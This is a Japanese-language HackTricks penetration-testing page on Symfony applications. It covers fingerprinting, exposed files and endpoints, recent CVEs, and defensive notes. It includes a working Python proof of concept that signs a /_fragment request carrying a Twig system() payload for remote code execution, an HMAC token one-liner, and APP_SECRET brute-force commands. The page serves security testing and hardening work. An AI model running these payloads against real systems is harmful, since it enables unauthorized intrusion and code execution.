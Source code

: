 # Symfony

{{#include ../../banners/hacktricks-training.md}}

Symfonyは最も広く使用されているPHPフレームワークの1つで、企業、eコマース、CMSターゲット（Drupal、Shopware、Ibexa、OroCRM … すべてSymfonyコンポーネントを埋め込んでいます）の評価に定期的に登場します。このページでは、Symfonyアプリケーションを発見した際にチェックリストに加えるべき攻撃的なヒント、一般的な誤設定、最近の脆弱性をまとめています。

> 歴史的な注記：エコシステムの大部分は依然として**5.4 LTS**ブランチ（EOL **2025年11月**）を実行しています。多くの2023-2025年のセキュリティアドバイザリはパッチリリースでのみ修正されているため、正確なマイナーバージョンを常に確認してください（例：5.4.46 → 5.4.50）。

---

## Recon & Enumeration

### Finger-printing
* HTTPレスポンスヘッダー：`X-Powered-By: Symfony`、`X-Debug-Token`、`X-Debug-Token-Link`または`sf_redirect`、`sf_session`、`MOCKSESSID`で始まるクッキー。
* ソースコードの漏洩（`composer.json`、`composer.lock`、`/vendor/…`）はしばしば正確なバージョンを明らかにします：
```bash
curl -s https://target/vendor/composer/installed.json | jq '.[] | select(.name|test("symfony/")) | .name,.version'
```
* Symfonyにのみ存在する公開ルート：
* `/_profiler`   （Symfony **Profiler** & デバッグツールバー）
* `/_wdt/<token>`（“Web Debug Toolbar”）
* `/_error/{code}.{_format}`（美しいエラーページ）
* `/app_dev.php`、`/config.php`、`/config_dev.php`（4.0以前の開発フロントコントローラー）
* Wappalyzer、BuiltWithまたはffuf/feroxbusterのワードリスト：`symfony.txt` → `/_fragment`、`/_profiler`、`.env`、`.htaccess`を探します。

### 興味深いファイルとエンドポイント
| パス | 重要性 |
|------|----------------|
| `/.env`、`/.env.local`、`/.env.prod` | 頻繁に誤ってデプロイされる → `APP_SECRET`、DBクレデンシャル、SMTP、AWSキーが漏洩 |
| `/.git`、`.svn`、`.hg` | ソース開示 → 認証情報 + ビジネスロジック |
| `/var/log/*.log`、`/log/dev.log` | Webルートの誤設定がスタックトレースを露出 |
| `/_profiler` | 完全なリクエスト履歴、設定、サービスコンテナ、**APP_SECRET**（≤ 3.4） |
| `/_fragment` | ESI/HIncludeによって使用されるエントリポイント。`APP_SECRET`を知っていると悪用可能 |
| `/vendor/phpunit/phpunit/phpunit` | アクセス可能な場合、PHPUnit RCE（CVE-2017-9841） |
| `/index.php/_error/{code}` | フィンガープリンティング & 時々例外トレースを漏洩 |

---

## 高影響脆弱性 (2023-2025)

### 1. APP_SECRET漏洩 ➜ `/_fragment`経由のRCE（別名“secret-fragment”）
* **CVE-2019-18889**が元々ですが、デバッグが有効のままにされているか、`.env`が露出している場合、現代のターゲットでも*まだ*見られます。
* 32文字の`APP_SECRET`を知ると、HMACトークンを作成し、内部の`render()`コントローラーを悪用して任意のTwigを実行します：
```python
# PoC – 秘密が必要
import hmac, hashlib, requests, urllib.parse as u
secret = bytes.fromhex('deadbeef…')
payload = "{{['id']|filter('system')}}"   # TwigでのRCE
query = {
'template': '@app/404.html.twig',
'filter': 'raw',
'_format': 'html',
'_locale': 'en',
'globals[cmd]': 'id'
}
qs = u.urlencode(query, doseq=True)
token = hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest()
r = requests.get(f"https://target/_fragment?{qs}&_token={token}")
print(r.text)
```
* 優れた解説と悪用スクリプト：Ambionicsブログ（参考文献にリンク）。

### 2. Windowsプロセスハイジャック – CVE-2024-51736
* `Process`コンポーネントはWindowsで`PATH`の前に現在の作業ディレクトリを検索しました。攻撃者が書き込み可能なWebルートに`tar.exe`、`cmd.exe`などをアップロードし、`Process`をトリガーできると（例：ファイル抽出、PDF生成）、コマンド実行が可能になります。
* 5.4.50、6.4.14、7.1.7でパッチ適用済み。

### 3. セッション固定 – CVE-2023-46733
* 認証ガードがログイン後に既存のセッションIDを再利用しました。攻撃者が被害者が認証する**前に**クッキーを設定すると、ログイン後にアカウントをハイジャックします。

### 4. TwigサンドボックスXSS – CVE-2023-46734
* ユーザー制御のテンプレート（管理CMS、メールビルダー）を公開するアプリケーションでは、`nl2br`フィルターがサンドボックスをバイパスし、JSを注入するために悪用される可能性があります。

### 5. Symfony 1ガジェットチェーン（レガシーアプリでまだ見つかる）
* `phpggc symfony/1 system id`は、`sfNamespacedParameterHolder`などのクラスでunserialize()が発生したときにRCEを引き起こすPharペイロードを生成します。ファイルアップロードエンドポイントと`phar://`ラッパーを確認してください。

{{#ref}}
../../pentesting-web/deserialization/php-deserialization-+-autoload-classes.md
{{#endref}}

---

## 悪用チートシート

### `/_fragment`のHMACトークンを計算する
```bash
python - <<'PY'
import sys, hmac, hashlib, urllib.parse as u
secret = bytes.fromhex(sys.argv[1])
qs     = u.quote_plus(sys.argv[2], safe='=&')
print(hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest())
PY deadbeef… "template=@App/evil&filter=raw&_format=html"
```
### 弱い `APP_SECRET` のブルートフォース
```bash
cewl -d3 https://target -w words.txt
symfony-secret-bruteforce.py -w words.txt -c abcdef1234567890 https://target
```
### RCE via exposed Symfony Console
`bin/console`が`php-fpm`または直接CLIアップロードを通じてアクセス可能な場合:
```bash
php bin/console about        # confirm it works
php bin/console cache:clear --no-warmup
```
デシリアライズガジェットをキャッシュディレクトリ内で使用するか、次のリクエストで実行される悪意のあるTwigテンプレートを書きます。

---

## 防御的な注意事項
1. **デバッグを決してデプロイしない** (`APP_ENV=dev`, `APP_DEBUG=1`); ウェブサーバーの設定で`/app_dev.php`、`/_profiler`、`/_wdt`をブロックします。
2. 秘密情報はenv変数または`vault/secrets.local.php`に保存し、*決して*ドキュメントルートを通じてアクセス可能なファイルに保存しないでください。
3. パッチ管理を強制する – Symfonyのセキュリティアドバイザリーに登録し、少なくともLTSパッチレベルを維持します。
4. Windowsで実行している場合は、CVE-2024-51736を軽減するために直ちにアップグレードするか、`open_basedir`/`disable_functions`の防御層を追加します。

---

### 有用な攻撃ツール
* **ambionics/symfony-exploits** – secret-fragment RCE、デバッガールートの発見。
* **phpggc** – Symfony 1 & 2用の既製のガジェットチェーン。
* **sf-encoder** – `_fragment` HMACを計算するための小さなヘルパー（Go実装）。

## 参考文献
* [Ambionics – Symfony “secret-fragment” Remote Code Execution](https://www.ambionics.io/blog/symfony-secret-fragment)
* [Symfony Security Advisory – CVE-2024-51736: Command Execution Hijack on Windows Process Component](https://symfony.com/blog/cve-2024-51736-command-execution-hijack-on-windows-with-process-class)
{{#include ../../banners/hacktricks-training.md}}
